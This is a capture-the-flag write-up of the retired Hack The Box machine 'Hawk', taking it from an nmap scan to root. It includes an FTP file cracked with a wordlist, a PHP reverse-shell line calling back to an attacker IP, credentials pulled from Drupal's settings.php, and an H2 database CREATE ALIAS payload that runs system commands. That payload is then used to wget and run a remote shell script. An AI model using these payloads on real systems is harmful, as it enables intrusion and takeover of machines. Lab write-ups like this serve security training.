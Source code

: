 ```yaml
---
layout: post
title: Hack The Box - Hawk
categories: hack-the-box
image: /hackthebox/hawk/0.png
redirect_from: "/HackTheBox-Hawk/"
---
```


<hr>
#### Hawk has retired and this is my write-up about it.
#### It's a Linux box and it's ip is 10.10.10.102 so let's jump right in !
![](/images/hackthebox/hawk/0.png)
<hr>
### Nmap
#### Starting with a simple nmap scan to scan tor TCP , UDP ports and services.
`nmap -sV -sT -sU 10.10.10.102`
![](/images/hackthebox/hawk/1.png)
<br>
#### We will see that we got FTP on port 21 , SSH on port 22 , HTTP on port 80 running apache server and HTTP on port 8082 running H2 Database HTTP Console.
<br>
<hr>
### FTP
#### Since there's FTP on the box let's check if we can do anonymous login.
![](/images/hackthebox/hawk/2.png)
#### We could login as anonymous and we got a file called : .drupal.txt.enc
#### Since it ends with .enc then it's an encrypted file.
#### Let's run file command against it to get more information.
<br>
```
file drupal.txt.enc
drupal.txt.enc : openssl enc'd data with salted password , base64 encoded
```
#### So base64 encoded ? Let's decode it.
<br>
`base64 -d drupal.txt.enc > drupal_decoded.txt.enc`
![](/images/hackthebox/hawk/3.png)
#### Now the file is ready for bruteforcing.
<br>
<hr>
### Decrypting The File
#### To get the password for decryption we will use a tool called bruteforce-salted-openssl with rockyou.
#### It's already installed on kali but if you're not using kali you can get it from [here](https://github.com/glv2/bruteforce-salted-openssl)
#### Now there's a small problem. We need to specify the right cipher and digest to be able to crack the file so we have to do some guessing.
#### I already cracked it so the cipher is AES-256-CBC and the digest is SHA256.
`bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decoded.txt.enc -1`
#### You may ask yourself why I didn't specify the cipher. I didn't specify it because the tool uses AES-256-CBC by default.
![](/images/hackthebox/hawk/4.png)
#### Great ! We got the password : friends . Let's decrypt the file.
`openssl aes-256-cbc -d -in drupal_decoded.txt.enc -out drupal.txt -k friends`
![](/images/hackthebox/hawk/5.png)
#### Now we have a username : "daniel" and a password : PencilKeybaordScanner123
<br>
<hr>
### Drupal
#### We see in the message that the password is for a portal. But what portal?
#### Let's visit the website on port 80
![](/images/hackthebox/hawk/6.png)
#### We see that it's running drupal CMS 
#### Let's login with the credentials we have.
#### Username daniel didn't work but admin worked and we got in as admin !
![](/images/hackthebox/hawk/7.png)
#### After we enumerate for a while we will see some interesting stuff.
#### The content tab which allows us to add content and the modules tab.
#### If we tried to add content we will get two options : Article or a basic page.
#### We will focus on basic pages for sure but we can only use html , filtered html and plain text .
#### Let's look in the modules tab.
#### We will find a module called php filter which allows us to use php in pages. After we enable it we will get a fourth option : php code
![](/images/hackthebox/hawk/8.png)
#### Great ! Let's get a reverse shell 
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9090 0>&1'");`
![](/images/hackthebox/hawk/9.png)
![](/images/hackthebox/hawk/10.png)
#### Let's check our listener.
![](/images/hackthebox/hawk/11.png)
#### bam we got a low privilege shell as www-data !
<br>
<hr>
### Privilege Escalation to daniel
#### So we're now in as www-data let's check sensetive files first.
#### In drupal 7 documentation [This section](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) it's mentioned that settings.php contains where the database is located , how to access it and the credentials to access it. So this file has some sensetive information let's check that out.
![](/images/hackthebox/hawk/12.png)
![](/images/hackthebox/hawk/13.png)
#### We got a password : drupal4hawk , Let's try ssh
![](/images/hackthebox/hawk/14.png)
#### We got in ! But when we login we get a python interpreter. We will get a shell with pty
<br>
```
import pty
pty.spawn("/bin/sh")
```
![](/images/hackthebox/hawk/15.png)
#### And we got user ! :D
<br>
<hr>
### Accessing H2 Database
#### Now with some regular enumeration if we check out root processes we will see those 2 processes.
![](/images/hackthebox/hawk/16.png)
#### Sounds familiar ? Yup the H2 Database.
#### If we return to our nmap scan we will see port 8082 running H2 Database HTTP Console.
![](/images/hackthebox/hawk/1.png)
#### Now we know that it's running as root so let's try to access that.
![](/images/hackthebox/hawk/17.png)
#### Remote connection is disabled. This means that we can only connect locally.
#### To bypass that we will use ssh tunneling.
#### And if you don't know what ssh tunneling is ... simply we will forward the connection from the box to our machine. This means that the H2 console will be accessed locally from the box then that connection will be forwarded to us.
`ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102`
![](/images/hackthebox/hawk/18.png)
#### Now if we visit our localhost on port 8080 we will get the login page.
#### By default it doesn't have a password so we can access the console without credentials but when we login without credentials it gives an error.
![](/images/hackthebox/hawk/19.png)
#### Let's try changing the JDBC URL to something we know that it exists. /root
![](/images/hackthebox/hawk/20.png)
#### It worked . Now we have access to the console.
![](/images/hackthebox/hawk/21.png)
<br>
<hr>
### Abusing H2 Database ALIAS and Privilege Escalation to root
#### Basically the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias) method creates a function that executes java code.
#### Since we can execute java code then we can do anything. So we will create a function that executes system commands then we will get a shell.
#### First we will create ALIAS called SHELLEXEC. The payload will be like this :
<br>
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
![](/images/hackthebox/hawk/22.png)
#### Then we will execute system commands by calling the function that we created. Let's execute whoami.
`call SHELLEXEC("whoami")`

![](/images/hackthebox/hawk/23.png)
#### And we see root :D
<br>
<br>
#### *NOTE: That H2 Database ALIAS exploit is not mine. Credits go to the creator . check his write-up about the exploit [here](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*
<br>
<br>
<br>
#### now since we can execute system commands it's over ! We can get a root shell.
#### But We can't write a shell command and execute it right away it won't work so instead of that we can write our shell in a .sh file then upload it and execute it.
#### Another way is to use msfvenom but it's not needed here because the exploit is simple.
#### First we will create the shell file.
`bash -i >& /dev/tcp/10.10.xx.xx/1234 0>&1 > shell`
#### Then we will set up a HTTP server with python to host the shell.
`python -m SimpleHTTPServer 7777`
![](/images/hackthebox/hawk/24.png)
#### Now we will use wget to get the shell file on the box.
`call SHELLEXEC("wget http://10.10.xx.xx:7777/shell")`
![](/images/hackthebox/hawk/25.png)
![](/images/hackthebox/hawk/26.png)
#### We will make the file executable. 
`call SHELLEXEC("chmod +x shell")`
![](/images/hackthebox/hawk/27.png)
#### Then we will rename it to shell.sh
`call SHELLEXEC("mv shell shell.sh")`
![](/images/hackthebox/hawk/28.png)
#### And finally we execute it.
`call SHELLEXEC("bash shell.sh")`
![](/images/hackthebox/hawk/29.png)
#### We don't get a response which is a good sign. Let's check our listener.
![](/images/hackthebox/hawk/30.png)
#### And we get a shell as root ! :D
<br>
<br>
<br>
#### That was Hawk. Feedback is appreciated ! 
#### Thanks for reading.
<br>
<hr>
